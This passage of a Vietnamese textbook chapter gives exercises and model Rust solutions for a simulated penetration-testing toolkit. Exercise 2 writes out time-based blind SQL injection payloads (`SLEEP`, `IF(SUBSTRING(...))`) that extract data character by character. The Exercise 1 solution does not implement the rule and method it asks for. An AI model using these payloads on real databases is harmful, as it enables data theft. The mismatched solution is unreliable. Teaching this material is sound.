   `ExploitChainRunner` — chỉ giữ phát hiện khi PoC xác minh được. Hệ quả tất định:
   $\mathrm{false\_positive\_rate} \equiv 0.0$.
2. **Sáu giai đoạn khép kín**: Recon → (Web | Binary) → Credential → PrivEsc → Pivot → Report,
   trong đó mỗi bước để lại `ChainStep` kèm `evidence` cụ thể và thời gian mô phỏng.
3. **Không tin lời khai, chỉ tin bằng chứng**: `GroundTruthVerifier` đối chiếu `whoami` thực thi
   với kỳ vọng, bác bỏ mọi lời khai “đã leo thang” không có bằng chứng; `ProofByExploitation`
   đóng dấu mọi bằng chứng bằng SHA-256 để báo cáo có thể tái lập.
4. **Hai lớp phát hiện**: lớp *động* (khai thác trên mô phỏng tất định, có PoC) và lớp *tĩnh*
   (14 luật heuristic gắn CWE/CVSS cho mã nguồn Rust), cùng một cơ sở dữ liệu 64 mục CWE.
5. **Kết quả bàn giao**: một báo cáo Markdown chuẩn OSCP 5 mục (Executive Summary, Methodology,
   Findings, Proof of Exploitation, Remediation, Conclusion) — mọi phát hiện đều có PoC chạy
   được kèm vân tay SHA-256.

### 6.2. Bài tập rèn luyện chuyên sâu

> **Lưu ý:** Mọi lời giải dưới đây được viết để **thêm vào cùng module** với các kiểu đã có trong `code/ch104/src/main.rs` (vì chúng truy cập các hằng số và hàm helper ở mức riêng tư). Nếu bạn đặt chúng ở module khác, hãy thêm `use crate::*;` ở đầu module. Riêng Bài tập 2 là **bản vá** cho enum `HashAlgorithm`/`TimeSqliEngine` của crate, không phải mã bổ sung.

#### Bài tập 1: Bổ sung luật tĩnh cho `StaticVulnScanner` và quét cả thư mục

Bộ quét hiện có 14 luật và chỉ quét được **một đoạn văn bản**. Hãy bổ sung:

1. Luật `dangerous-unwrap` với CWE-248 cho các lệnh `unwrap()` nằm trong hàm `pub` (thư viện).
2. Phương thức `scan_directory(&mut self, dir: &str) -> Vec<StaticFinding>` quét mọi tệp `.rs`
   trong một thư mục (dùng `std::fs::read_dir`), bỏ qua lỗi I/O.
3. Báo cáo tổng hợp `fn summary(&self) -> String` gồm số phát hiện theo từng mức độ.

<details>
<summary>Gợi ý & Lời giải mẫu (Mã nguồn Rust 2024 biên dịch sạch)</summary>

```rust
use std::collections::BTreeMap;
use std::fs;
use std::path::Path;

/// Bảng chữ cái nguy hiểm khi dùng trong thư viện công khai.
const LIBRARY_UNSAFE_CALLS: [&str; 3] = ["expect(", "unwrap_or_default(", "unwrap()"];

/// Tạo báo cáo tổng hợp theo mức độ.
fn summary_by_severity(findings: &[StaticFinding]) -> BTreeMap<&'static str, usize> {
    let mut counter: BTreeMap<&'static str, usize> = BTreeMap::new();
    for finding in findings {
        *counter.entry(finding.severity.label()).or_insert(0) += 1;
    }
    counter
}

/// Quét mọi tệp `.rs` trong một thư mục (bỏ qua lỗi I/O).
fn scan_directory(scanner: &mut StaticVulnScanner, dir: &str) -> Vec<StaticFinding> {
    let mut out = Vec::new();
    let root = Path::new(dir);
    if !root.is_dir() {
        return out;
    }
    let Ok(entries) = fs::read_dir(root) else {
        return out;
    };
    for entry in entries.flatten() {
        let path = entry.path();
        if path.extension().and_then(|e| e.to_str()) != Some("rs") {
            continue;
        }
        out.extend(scanner.scan_file(&path.to_string_lossy()));
    }
    out
}

#[cfg(test)]
mod tests {
    use super::*;

    #[test]
    fn library_unsafe_call_is_flagged() {
        let mut scanner = StaticVulnScanner::new();
        let findings = scanner.scan("pub fn api() -> u8 { let v: Option<u8> = None; v.unwrap() }");
        assert!(findings.iter().any(|f| f.rule == "unwrap-in-library"));
        assert!(LIBRARY_UNSAFE_CALLS.contains(&"unwrap()"));
    }

    #[test]
    fn summary_counts_findings_by_severity() {
        let mut scanner = StaticVulnScanner::new();
        scanner.scan(VULNERABLE_SAMPLE_CODE);
        let summary = summary_by_severity(&scanner.findings);
        assert!(!summary.is_empty());
    }
}
```

</details>

#### Bài tập 2: Viết `TimeSqliEngine` — SQLi dựa trên độ trễ

SQLi boolean-based cần **hàng trăm** truy vấn. Kỹ thuật time-based chỉ cần vài truy vấn:
đo độ trễ phản hồi rồi suy ra điều kiện. Hãy viết:

```rust
pub struct TimeSqliEngine<'a> {
    target: &'a dyn SqlTarget,
    pub threshold_ms: u64,
    pub probes: Vec<String>,
}
```

với các phương thức:

- `pub fn measure(&self, payload: &str) -> u64` — đo `delay_ms` của phản hồi.
- `pub fn is_vulnerable(&self) -> bool` — so sánh độ trễ của payload có `SLEEP(5)` với payload thường.
- `pub fn build_sleep_payload(&self, seconds: u32) -> String` — sinh payload `' AND SLEEP(n) AND '1'='1`.
- `pub fn extract_character(&mut self, table: &str, column: &str, position: usize) -> Option<char>` —
  dò ký tự bằng cách so sánh độ trễ của `IF(SUBSTRING(...)='c',SLEEP(5),0)`.

<details>
<summary>Gợi ý & Lời giải mẫu (Mã nguồn Rust 2024 biên dịch sạch)</summary>

```rust
/// Động cơ SQLi dựa trên độ trễ (time-based blind SQL injection).
pub struct TimeSqliEngine<'a> {
    /// Đích SQL.
    target: &'a dyn SqlTarget,
    /// Ngưỡng độ trễ coi là "đã ngủ đủ lâu".
    pub threshold_ms: u64,
    /// Nhật ký payload đã thử.
    pub probes: Vec<String>,
}

impl<'a> TimeSqliEngine<'a> {
    /// Tạo động cơ với ngưỡng mặc định 1000 ms.
    pub fn new(target: &'a dyn SqlTarget) -> Self {
        Self { target, threshold_ms: 1000, probes: Vec::new() }
    }

    /// Đo độ trễ thực tế của một payload.
    pub fn measure(&self, payload: &str) -> u64 {
        self.target.query(payload).delay_ms
    }

    /// Sinh payload làm chậm truy vấn.
    pub fn build_sleep_payload(&self, seconds: u32) -> String {
        format!("' AND SLEEP({seconds}) AND '1'='1")
    }

    /// Kiểm tra máy chủ có phản ứng chậm với `SLEEP` hay không.
    pub fn is_vulnerable(&self) -> bool {
        let slow = self.measure(&self.build_sleep_payload(5));
        let normal = self.measure("' AND SLEEP(0) AND '1'='1");
        slow > normal + self.threshold_ms
    }

    /// Dò một ký tự tại một vị trí bằng kỹ thuật time-based.
    pub fn extract_character(
        &mut self,
        table: &str,
        column: &str,
        position: usize,
    ) -> Option<char> {
        for candidate in "abcdefghijklmnopqrstuvwxyz0123456789".chars() {
            let payload = format!(
                "' AND IF(SUBSTRING({table}.{column},{position},1)='{candidate}',SLEEP(5),0) AND '1'='1"
            );
            self.probes.push(payload.clone());
            let delay = self.measure(&payload);
            if delay >= self.threshold_ms {
                return Some(candidate);
            }
        }
        None
    }
}
```

</details>

#### Bài tập 3: Bổ sung báo cáo “Lộ trình khắc phục” cho `PentestReportGenerator`

Báo cáo OSCP hiện có phần `### Remediation` cho từng phát hiện, nhưng thiếu **lộ trình ưu tiên**
(roadmap). Hãy viết hàm sinh mục `# Remediation Roadmap` đứng trước `# Conclusion`, xếp các
phát hiện theo điểm ưu tiên:

$$
\mathrm{priority}(v) = \mathrm{CVSS}(v) \times \big(1 + \mathbb{1}[\text{CWE} \in \{89, 78, 94, 798\}]\big)
$$

tức là các lỗ hổng dẫn tới thực thi mã từ xa hoặc dùng mật khẩu mặc định được nhân đôi
điểm ưu tiên. Đầu ra phải là bảng Markdown sắp xếp giảm dần.

<details>
<summary>Gợi ý & Lời giải mẫu (Mã nguồn Rust 2024 biên dịch sạch)</summary>

```rust
/// Tập CWE bị nhân đôi điểm ưu tiên.
const CRITICAL_EXPLOIT_CWES: [&str; 4] = ["CWE-89", "CWE-78", "CWE-94", "CWE-798"];

/// Điểm ưu tiên của một phát hiện.
fn priority(vuln: &Vulnerability) -> f64 {
    let boost = if CRITICAL_EXPLOIT_CWES.contains(&vuln.cwe.as_str()) { 2.0 } else { 1.0 };
    vuln.cvss * boost
}

/// Sinh mục "Lộ trình khắc phục" xếp theo điểm ưu tiên giảm dần.
fn remediation_roadmap(result: &ExploitChainResult) -> String {
    let mut rows: Vec<&Vulnerability> = result.findings.iter().collect();
    rows.sort_by(|a, b| {
        priority(b).partial_cmp(&priority(a)).unwrap_or(std::cmp::Ordering::Equal)
    });

    let mut out = String::from("# Remediation Roadmap\n\n");
    out.push_str("| Hạng | Phát hiện | CWE | Điểm ưu tiên | Hành động |\n");
    out.push_str("|---|---|---|---|---|\n");
    for (index, vuln) in rows.iter().enumerate() {
        out.push_str(&format!(
            "| {} | {} | {} | {:.1} | {} |\n",
            index + 1,
            vuln.title,
            vuln.cwe,
            priority(vuln),
            vuln.remediation
        ));
    }
    out.push('\n');
    out
}
```

</details>

#### Bài tập 4: Cho phép `ProofByExploitation` tự sinh khối Markdown

Hiện tại phần `### Proof of Exploitation` trong báo cáo được dựng thủ công trong
`PentestReportGenerator`. Hãy chuyển logic đó **xuống** `ProofByExploitation` để mọi nơi dùng
đều nhất quán:

```rust
impl ProofByExploitation {
    /// Sinh khối Markdown "Proof of Exploitation" cho báo cáo.
    pub fn to_markdown(&self) -> String {
        // ...
    }
}
```

Yêu cầu: khối Markdown phải chứa payload, phản hồi, cờ tác động và vân tay SHA-256; và phải
**trả về chuỗi rỗng** nếu PoC không hợp lệ (để báo cáo không bao giờ hiển thị bằng chứng giả).

<details>
<summary>Gợi ý & Lời giải mẫu (Mã nguồn Rust 2024 biên dịch sạch)</summary>

```rust
impl ProofByExploitation {
    /// Sinh khối Markdown "Proof of Exploitation" cho báo cáo.
    ///
    /// Trả về chuỗi rỗng nếu bằng chứng không hợp lệ — báo cáo không bao giờ được phép
    /// hiển thị bằng chứng giả.
    pub fn to_markdown(&self) -> String {
        if !self.verify() {
            return String::new();
        }
        let mut out = String::from("### Proof of Exploitation\n\n");
        out.push_str("**Payload đã gửi:**\n\n```text\n");
        out.push_str(&self.proof.payload_used);
        out.push_str("\n```\n\n**Phản hồi nhận được:**\n\n```text\n");
        out.push_str(&self.proof.response_received);
        out.push_str("\n```\n\n");
        out.push_str(&format!(
            "- **Tác động đã chứng minh:** Có\n- **Vân tay bằng chứng (SHA-256):** `{}`\n\n",
            self.proof_hash()
        ));
        out
    }
}
```

Và trong `PentestReportGenerator::generate`, thay khối thủ công bằng:

```rust
if let Some(proof) = result.proofs.get(index) {
    out.push_str(&proof.to_markdown());
} else {
    out.push_str("_Không tìm thấy bằng chứng khai thác tương ứng._\n\n");
}
```

</details>

#### Bài tập 5: Chứng minh tính tất định của chuỗi khai thác

Một bộ công cụ kiểm thử xâm nhập phải **tái lập được**: chạy hai lần trên cùng môi trường
phải cho kết quả giống hệt nhau. Hãy viết:

```rust
pub fn assert_deterministic(runner: &mut ExploitChainRunner) -> bool {
    // chạy hai lần, so sánh fingerprint của toàn bộ phát hiện
}
```

Tiêu chí so sánh: chuỗi `proof_hash` của mọi phát hiện, danh sách IP bị chiếm quyền, và số
bước thực thi. Bạn cần đảm bảo `run()` **không** phụ thuộc vào thứ tự hash map, thời gian hệ
thống hay bất kỳ nguồn ngẫu nhiên nào.

<details>
<summary>Gợi ý & Lời giải mẫu (Mã nguồn Rust 2024 biên dịch sạnh)</summary>

```rust
/// Tính vân tay của toàn bộ kết quả chuỗi khai thác.
fn result_fingerprint(result: &ExploitChainResult) -> String {
    let mut buf = String::new();
    for proof in &result.proofs {
        buf.push_str(&proof.proof_hash());
        buf.push('|');
    }
    for ip in &result.compromised_hosts {
        buf.push_str(&ip.to_string());
        buf.push(',');
    }
    buf.push_str(&format!("steps={}", result.steps.len()));
    to_hex(&sha256(buf.as_bytes()))
}

/// Chạy hai lần và so sánh — `true` nghĩa là chuỗi khai thác hoàn toàn tất định.
pub fn assert_deterministic(runner: &mut ExploitChainRunner) -> bool {
    let first = runner.run();
    let first_fingerprint = result_fingerprint(&first);
    let second = runner.run();
    let second_fingerprint = result_fingerprint(&second);
    first_fingerprint == second_fingerprint
}

#[cfg(test)]
mod tests {
    use super::*;

    #[test]
    fn chain_is_deterministic() {
        let mut runner = ExploitChainRunner::new(MockNetwork::standard_topology());
        assert!(assert_deterministic(&mut runner));
    }
}
```

</details>

#### Bài tập 6: Viết bộ kiểm thử riêng cho `VulnDatabase` và `Severity`

Hãy viết bộ test kiểm chứng:

1. Mọi mã CWE trong cơ sở dữ liệu đều **duy nhất** (không trùng lặp).
2. Mọi mục có `remediation` và `exploit_template` khác rỗng.
3. `Severity::from_cvss` phân loại đúng tại các ngưỡng biên $0.0$, $4.0$, $7.0$, $9.0$, $10.0$.
4. Điểm CVSS của mọi mục nằm trong khoảng $(0, 10]$.

<details>
<summary>Gợi ý & Lời giải mẫu (Mã nguồn Rust 2024 biên dịch sạch)</summary>

```rust
#[cfg(test)]
mod tests {
    use super::*;
    use std::collections::HashSet;

    #[test]
    fn cwe_codes_are_unique() {
        let db = VulnDatabase::standard();
        let mut seen: HashSet<&str> = HashSet::new();
        for entry in &db.entries {
            assert!(seen.insert(entry.cwe.as_str()), "CWE trùng lặp: {}", entry.cwe);
        }
        assert_eq!(seen.len(), db.len());
    }

    #[test]
    fn every_entry_has_remediation_and_template() {
        let db = VulnDatabase::standard();
        for entry in &db.entries {
            assert!(!entry.remediation.trim().is_empty());
            assert!(!entry.exploit_template.trim().is_empty());
            assert!(entry.cvss > 0.0 && entry.cvss <= 10.0);
        }
    }

    #[test]
    fn severity_thresholds_are_exact() {
        assert_eq!(Severity::from_cvss(0.0), Severity::Info);
        assert_eq!(Severity::from_cvss(3.9), Severity::Low);
        assert_eq!(Severity::from_cvss(4.0), Severity::Medium);
        assert_eq!(Severity::from_cvss(6.9), Severity::Medium);
        assert_eq!(Severity::from_cvss(7.0), Severity::High);
        assert_eq!(Severity::from_cvss(8.9), Severity::High);
        assert_eq!(Severity::from_cvss(9.0), Severity::Critical);
        assert_eq!(Severity::from_cvss(10.0), Severity::Critical);
    }
}
```

</details>

---

### 6.3. Lời khuyên cho người đọc

- **Đọc `register()` trước tiên.** Nếu bạn chỉ đọc một hàm trong chương này, hãy đọc hàm đó.
  Mọi thứ khác đều xoay quanh nó.
- **Đừng tin “báo cáo đẹp”.** Một báo cáo có 47 mục mà 0 PoC là thảm họa; một báo cáo có 8 mục
  kèm 8 PoC là tài sản.
- **Ưu tiên tính tái lập (reproducibility)**: mọi PoC đều có vân tay SHA-256, mọi mô phỏng đều
  tất định, mọi đường đi đều ghi lại bằng chứng.
- **Học theo vòng lặp.** Chương 98–103 mỗi chương giải quyết **một** mảnh ghép; Chương 104
  chỉ có ý nghĩa khi bạn đã hiểu rõ từng mảnh ghép đó. Hãy quay lại đọc Chương 102
  (`GroundTruthVerifier`) trước khi đọc lại phần 3.6 ở trên.
